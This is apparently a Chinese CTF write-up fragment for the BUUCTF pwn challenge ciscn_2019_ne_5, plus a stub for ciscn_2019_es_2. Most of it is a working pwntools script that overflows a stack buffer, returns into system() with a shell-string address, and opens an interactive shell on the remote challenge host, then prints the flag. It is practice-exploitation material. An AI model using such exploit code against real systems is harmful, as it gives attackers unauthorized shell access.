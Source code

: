 有system

src参数通用



exp：

不要用`p32(0)` 因为有`strcpy`函数

```python
from pwn import *

# io = process("./ciscn_2019_ne_5")

io = remote('node5.buuoj.cn',28698)

binsh_addr = 0x80482E6 + 4

system_addr=0x80484D0

io.recvuntil(b"Please input admin password:")

io.sendline(b'administrator')

io.recvuntil(b"Input your operation:")

io.sendline(b'1')

payload = b'a'*(0x48 + 0x04) + p32(system_addr) + b'a'*4 + p32(binsh_addr)

io.recvuntil(b"Please input new log info:")

io.sendline(payload)

io.recvuntil(b"Input your operation:")

io.sendline(b'4')

io.interactive()
```



拿到flag

```
flag{79a5a4fa-ab09-42f1-baef-54ba7e312d57}
```



## ciscn_2019_es_2(未完成)

[[原创\]ciscn_2019_es_2栈转移-Pwn-看雪-安全社区|安全招聘|kanxue.com](https://bbs.kanxue.com/thread-269163.htm)

32位nx，partial
